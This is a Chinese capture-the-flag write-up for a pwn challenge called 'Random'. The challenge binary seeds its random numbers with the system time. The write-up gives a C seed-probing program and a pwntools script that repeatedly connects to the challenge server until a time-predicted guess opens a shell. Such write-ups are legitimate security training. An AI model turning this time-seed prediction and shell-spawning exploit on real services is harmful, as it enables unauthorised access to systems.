 ```yaml
---
title: newstar2023 week1 - Random
date: 2023/9/28 12:00:00
updated: 2024/8/26 17:18:00
tags:
    - result predicting
excerpt: 通过时间预测随机数，成功利用程序漏洞打开shell。
---
```


## 文件分析

下载`pwn`，保护全开  
ghidra分析为64位程序

## 解题思路

程序中有且仅有一个%d的输入，且匹配读入的int类型，所以不存在输入中的漏洞

但是将输入的数字猜对，可以执行system，不过是2$031中的某2个字符  
只要执行system("$0")，同样可以打开shell

随机值的种子是系统当前时间，种子相同，随机数相同  
故我们需要在正确的时间输入正确的随机数才能打开shell

## EXPLOIT

首先我们需要找到这个合适的时间

```c
// seedprobe.c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>

static char cmdlist[5] = {'2', '$', '0', '3', '1'};

int main(void) {
    time_t init = time(NULL) + 5; // 为了避免本地与服务器时间不同带来的问题，故选择5秒后开始计算
    int valid = 0;
    for (int i = 0; i < 120; i++) {
        srand(init + i);
        int guess = rand();
        char c2 = cmdlist[rand() % 5];
        char c1 = cmdlist[rand() % 2];
        if (c1 == '$' && c2 == '0') { // 模拟程序运行
            time_t tmp = init + i;
            char timestr[16];
            strftime(timestr, 16, "%m-%d %H:%M:%S ", localtime(&tmp));
            printf("%s\b, guess=%d\n", timestr, guess); // 打印时间方便卡时间测试；打印数字方便读取
            valid++;
        }
    }
    if (valid > 0) 
        printf("%d valid time stamps.\n", valid);
    else
        printf("No valid time now.\n");
    return 0;
}
```

然后在合适的时间启动gdb调试，发现可以成功打开shell，于是开始打靶

```python
from pwn import *
import time

sh = process('seedprobe') # 取第一个数字
sh.recvuntil(b'=') # skip
guess = sh.recvline()[:-1] # strip '\n'
sh.close()

while True:
    sh = remote("node4.buuoj.cn", 26447)
    sh.sendline(guess)
    if sh.recvuntil(b'Ha', timeout=1) == b'': # 超时未读到Haha...即代表已在合适的时间猜对数字
        break
    sh.close()
    time.sleep(0.5)

sh.interactive()
```

## 参考

[模拟攻击](http://www.asuka39.top/article/security/ctf/pwn/2064/)

Done.
